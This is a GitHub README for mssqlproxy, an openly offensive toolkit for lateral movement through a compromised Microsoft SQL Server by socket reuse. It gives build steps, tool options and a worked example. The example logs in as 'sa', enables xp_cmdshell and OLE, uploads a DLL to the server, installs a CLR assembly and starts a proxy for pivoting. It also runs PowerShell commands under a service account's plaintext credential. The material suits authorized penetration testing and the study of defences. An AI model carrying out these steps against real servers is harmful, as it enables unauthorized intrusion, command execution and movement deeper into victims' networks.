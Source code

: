 # mssqlproxy
 [![](https://img.shields.io/badge/Category-Lateral%20Movement-E5A505?style=flat-square)]() [![](https://img.shields.io/badge/Language-.NET%20%2f%20C%20%2f%20Python-E5A505?style=flat-square)]()



**mssqlproxy** is a toolkit aimed to perform lateral movement in restricted environments through a compromised Microsoft SQL Server via socket reuse. The client requires [impacket](https://github.com/SecureAuthCorp/impacket) and **sysadmin** privileges on the SQL server.

<p align="center">
  <img src="scenario.png" width="720" >
</p>


Please read [this article](https://www.blackarrow.net/mssqlproxy-pivoting-clr/) carefully before continuing.

It consists of three parts:
*  **CLR assembly**: Compile assembly.cs
*  **Core DLL**: Compile reciclador.sln
*  **Client**: mssqlclient.py (based on Impacket's example)

You can compile the libraries or download them from [releases](https://github.com/blackarrowsec/mssqlproxy/releases) (x64).


Compilation
------------

To generate the core DLL, just import the project to Visual Studio (reciclador.sln) and compile it.

To generate the CLR assembly, first you need to find the C# compiler:
```powershell
Get-ChildItem -Recurse "C:\Windows\Microsoft.NET\" -Filter "csc.exe" | Sort-Object fullname -Descending | Select-Object fullname -First 1 -ExpandProperty fullname
```

Then,
```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:library .\assembly.cs
```


Usage
------------
Once the two libraries are compiled, upload the core DLL (reciclador) to the target server.

Authentication options are the same as the ones in [the original mssqlclient](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py). **mssqlproxy** options:

```
proxy mode:
  -reciclador path      Remote path where DLL is stored in server
  -install              Installs CLR assembly
  -uninstall            Uninstalls CLR assembly
  -check                Checks if CLR is ready
  -start                Starts proxy
  -local-port port      Local port to listen on
  -clr local_path       Local CLR path
  -no-check-src-port    Use this option when connection is not direct (e.g. proxy)
```

We have also implemented two commands (within the SQL shell) for downloading and uploading files. Relating to the proxy stuff, we have four commands:

* **install**: Creates the CLR assembly and links it to a stored procedure. You need to provide the `-clr` param to read the generated CLR from a local DLL file.
* **uninstall**: Removes what **install** created.
* **check**: Checks if everything is ready to start the proxy. Requires to provide the server DLL location (`-reciclador`), which can be uploaded using the **upload** command.
* **start**: Starts the proxy. If `-local-port` is not specified, it will listen on port 1337/tcp.

Once the proxy is started, you can plug in your proxychains ;)

[![asciicast](https://asciinema.org/a/298949.svg)](https://asciinema.org/a/298949)

**Note #1:** if using a non-direct connection (e.g. proxies in between), the `-no-check-src-port` flag is needed, so the server only checks the source address.

**Note #2:** at the moment, only IPv4 targets are supported (nor DNS neither IPv6 addresses).

**Note #3:** use carefully! by now the MSSQL service will crash if you try to establish multiple concurrent connections

**Important:** It's important to stop the mssqlproxy by pressing Ctrl+C on the client. If not, the server may crash and you will have to restart the MSSQL service manually.


Example
------------

Prepare
```bash
mv assembly.dll Microsoft.SqlServer.Proxy.dll
export username='sa'
export password='#mssql_s3rV1c3!2020'
export ip_mssql='10.10.10.240'
python3 mssqlclient.py $username:$password@$ip_mssql
SQL> enable_xp_cmdshell
SQL> enable_ole
SQL> upload reciclador.dll c:\windows\temp\reciclador.dll
SQL> exit
```

Proxy
```bash
python3 mssqlclient.py $username:$password@$ip_mssql -install -clr Microsoft.SqlServer.Proxy.dll
python3 mssqlclient.py $username:$password@$ip_mssql -check -reciclador 'c:\windows\temp\reciclador.dll'
python3 mssqlclient.py $username:$password@$ip_mssql -start -reciclador 'c:\windows\temp\reciclador.dll'
```

xp_cmdshell
```bash
SQL> xp_cmdshell whoami /all
SQL> powershell -c "$pass = convertto-securestring '#mssql_s3rV1c3!2020' -asplaintext -force;$cred = new-object system.management.automation.pscredential('licordebellota\svc_mssql', $pass);invoke-command -computername 127.0.0.1 -credential $cred -scriptblock {whoami}"
```


Authors
---------------
Pablo Martinez ([@xassiz](https://twitter.com/xassiz)), Juan Manuel Fernandez ([@TheXC3LL](https://twitter.com/TheXC3LL)) [ [www.blackarrow.net](http://blackarrow.net/) - [www.tarlogic.com](https://www.tarlogic.com/en/) ]


References
---------------

* https://www.blackhat.com/presentations/bh-asia-03/bh-asia-03-chong.pdf
* https://blog.netspi.com/attacking-sql-server-clr-assemblies/
* https://www.codeproject.com/Articles/27298/Dynamic-Invoke-C-DLL-function-in-C
* https://x-c3ll.github.io/posts/Pivoting-MySQL-Proxy/
* https://docs.microsoft.com/en-us/sql/ado/reference/ado-api/stream-object-ado
* https://docs.microsoft.com/es-es/sql/t-sql/functions/openrowset-transact-sql

License
-------

All the code included in this project is licensed under the terms of the MIT license. The mssqlclient.py is based on [Impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py).

#

[![](https://img.shields.io/badge/www-blackarrow.net-E5A505?style=flat-square)](https://www.blackarrow.net) [![](https://img.shields.io/badge/twitter-@BlackArrowSec-00aced?style=flat-square&logo=twitter&logoColor=white)](https://twitter.com/BlackArrowSec) [![](https://img.shields.io/badge/linkedin-@BlackArrowSec-0084b4?style=flat-square&logo=linkedin&logoColor=white)](https://www.linkedin.com/company/blackarrowsec/)
